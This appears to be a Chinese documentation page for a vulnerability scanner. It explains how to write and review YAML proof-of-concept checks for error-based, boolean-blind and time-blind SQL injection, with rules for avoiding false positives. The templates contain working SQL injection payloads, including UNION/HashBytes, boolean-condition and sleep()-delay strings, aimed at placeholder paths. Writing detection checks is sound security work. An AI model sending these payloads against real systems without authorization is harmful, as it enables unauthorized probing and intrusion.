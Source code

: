 ```yaml
---
title: 'SQL注入'
---
```


对于sql注入相关漏洞的检测，大致分为三种类型，这里分别进行分析

<Warning>测试SQL注入漏洞，无论是哪种类型，都请不要使用`user()`、`version()`等函数来辅助验证漏洞的存在与否。此类规则**太过宽泛**，不同系统之间显示的内容都有不同的可能，在匹配时具有一定的随机性</Warning>

## 有回显注入（error based and other）

有回显的注入检测比较简单，这里以报错注入为例进行讲解

```yaml
name: poc-yaml-test-sqli-echo-based
manual: true
transport: http
set:
    r1: randomInt(8000, 10000)
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /xxx.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','{{r1}}')),db_name(1),5,6,7
        expression: response.status == 200 && response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
expression: r0()
detail:
    author: chaitin
    links:
        - http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
    1. 对于给出的SQL注入语句
        - 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
        - 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
    1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
    2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 模板

[有回显注入](/plugins/practice/poc/Template#ordinary-injection)

## 布尔盲注（boolean based）

布尔盲注与时间盲注相似，都是一定会存在两个包含sql注入语句的rule，这里举例分析

```yaml
name: poc-yaml-test-sqli-boolean-based
manual: true
transport: http
set:
    s1: randomLowercase(5)
    a1: randomInt(1000, 9000)
    a2: randomInt(1000, 9000)
rules:
r0:
    request:
        cache: true
        method: POST
        path: /xxx.cgi
        headers:
            Content-Type: application/x-www-form-urlencoded
        body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a2}} and %27{{s1}}%27=%27{{s1}}
        follow_redirects: true
    expression: response.body.bcontains(b"id=\"lblWarning\">User authentication Failed")
r1:
    request:
        cache: true
        method: POST
        path: /xxx.cgi
        headers:
            Content-Type: application/x-www-form-urlencoded
        body: USERDBDomains.Domainname=geardomain%27 and {{a1}}={{a1}} and %27{{s1}}%27=%27{{s1}}
        follow_redirects: true
    expression: response.body.bcontains(b"id=\"lblWarning\">User Login Failed for SSLVPN User")
expression: r0() && r1()
detail:
    author: Chaitin
    links:
        - http://example.com
```

大体的验证方法与实时间盲注相同，这里说明下几个需要注意的点
- 所匹配的页面内容一定是最终的内容，follow_redirects为true时需要匹配重定向后页面的内容
- 选取的匹配内容一定是条件为真或条件为假时所出现的`特有内容`，两者不可重叠，否则及其容易出现误报的现象
- 在匹配一些关键词的时候，如果r0中匹配了"EMPNAME"，那么r1中就应该写不匹配这个"EMPNAME"的语句，也就是`!response.body_string.contains("EMPNAME")`

### 模板

[布尔盲注](/plugins/practice/poc/Template#bool)

## 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
    randSecond1: randomInt(5, 8)
    randSecond2: randomInt(2, 4)
rules:
    r0:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
        expression: response.status == 200 && response.body_string.contains("xxxxxxx")
        output:
            undelayedLantency: response.latency
    r1:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
            read_timeout: "10"
        expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 100 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
        output:
            undelayedLantency1: response.latency
    r2:
        request:
            cache: false
            method: GET
            path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
            read_timeout: "10"
        expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 100 && response.latency < undelayedLantency1 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1() && r2()
detail:
    author: Chaitin
    links:
        - http://example.com
```

对于时间盲注来说，我们首先需要保证出了延时的不同，path的其他部分都要保证完全一致。那么当我们发送对应的payload时，至少是能排除掉因为访问路径或者参数的不同所导致的时间差异问题

同时这里分别说明一下基础的三个请求分别所对应的意义
- 第一个请求：延时为0，测出访问对应站点时的基础延时
- 第二个请求：延时一定不为0，且时长定在(5, 8)秒，通过延长一个较长的时间来发现是否发生一个延时，但是这个内容可能收到系统方面相关网络波动的影响分
- 第三个请求：延时一定不为0，且时长一定小于第二个请求中的延时，通过一个较短的时间判断这个延时一定是因为sql注入所发生的

那么依据上边所分析出来的内容，我们可以得到以下的要求

- 在第一条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第二条rule中的request信息保持一致
        - sleep的时间一定是`0s`
    2. 关于匹配的expression
        - 符合接口的返回内容即可，**必须**在其中匹配一些特有的返回结果，否则将很有可能产生误报。
    3. 关于output的内容
        - 这条rule一定会有output的内容，其中的变量存储着这一条请求所花费的时间
- 在第二条关于注入的rule中
    1. 关于注入的内容
        - 关于request的内容，除时间不同以外，`一定`要与第一条rule中的request信息保持一致
        - sleep的时间需要设置随机值，同时随机值的最小值一定不能小于`3s`，避免数值过小带来的网络波动问题
    2. 关于匹配的expression
        - 一定需要对访问时间的差值进行比较，确保两个相似请求之间的时间差异全部是由sleep所造成的
        - 同时无特殊的情况下，`建议`除了时间差值的比较之外，其他的内容与第一条相同
- 在第三条关于注入的rule中
    - 时间取值范围变小
    - 匹配的内容与第二条类似，但要加上判断第二条的延时是否大于第三条的延时，避免误报

<Warning>一定要注意添加read_timeout: "10"，不然扫描器会直接不等响应完就根据默认时间直接结束，同时要注意该漏洞的payload是否会被执行多次，造成等待时间翻倍的情况，如果存在，请自行缩短sleep时长，同时提高read_timeout的值</Warning>

<Tip>这里强求对页面中的部分内容进行匹配，目的是为了作为目标系统的指纹，消除网络环境的影响，防止一些不相干的系统造成的误报。同时匹配的内容不用过多，体现出目标系统的独特性即可</Tip>

### 模板

[时间盲注](/plugins/practice/poc/Template#time)
